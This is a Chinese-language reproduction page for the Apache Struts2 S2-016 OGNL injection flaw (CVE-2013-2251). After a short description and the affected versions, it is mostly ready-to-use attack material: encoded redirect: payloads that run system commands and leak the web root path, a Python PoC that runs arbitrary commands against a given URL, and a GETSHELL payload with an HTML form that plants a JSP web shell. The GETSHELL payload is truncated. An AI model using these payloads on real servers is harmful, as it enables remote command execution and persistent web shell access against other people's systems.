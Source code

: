# （CVE-2013-2251）s2-016

## 一、漏洞简介

DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令

## 二、漏洞影响

Struts2.0.0 - Struts2.3.15

## 三、复现过程

![图片.png](images/fffbc3883ebe43508a9c2b1fa83f4c81.png)

**任意命令执行**

```bash
redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D

```

```bash
?redirect:
${#a=new java.lang.ProcessBuilder(new java.lang.String[]{"netstat","-an"}).start().getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#screen=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),#screen.println(#d),#screen.close()}

```

**爆网站路径EXP**

```bash
 ?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D

```

**python执行任意命令poc**

```python
import urllib2,sys,re

def get(url, data):
    string = url + "?" + data
    req = urllib2.Request("%s"%string)
    response = urllib2.urlopen(req).read().strip()
    print strip(response)

def strip(str):
   tmp = str.strip()
   blank_line=re.compile('\x00')
   tmp=blank_line.sub('',tmp)
   return tmp

if __name__ == '__main__':
    url = sys.argv[1]
    cmd = sys.argv[2]
    cmd1 = sys.argv[3]
    attack="redirect:${%%23a%%3d(new%%20java.lang.ProcessBuilder(new%%20java.lang.String[]{'%s','%s'})).start(),%%23b%%3d%%23a.getInputStream(),%%23c%%3dnew%%20java.io.InputStreamReader(%%23b),%%23d%%3dnew%%20java.io.BufferedReader(%%23c),%%23e%%3dnew%%20char[50000],%%23d.read(%%23e),%%23matt%%3d%%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%23matt.getWriter().println(%%23e),%%23matt.getWriter().flush(),%%23matt.getWriter().close()}"%(cmd,cmd1)
    get(url,attack)

```

**GETSHELL EXP**

```bash
?redirect:${
%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
%23p%3d(%23req.getRealPath(%22/%22)%2b%22test.jsp%22).replaceAll("\\\\", "/"),
new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()
}&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%

```

然后用以下代码写shell:

```html
<form action="http://baidu.com/acdap/test.jsp?f=1.jsp&quot; method="post">
<textarea >code</textarea>
<input type=submit value="提交">
</form>

```

上传目录生成1.jsp

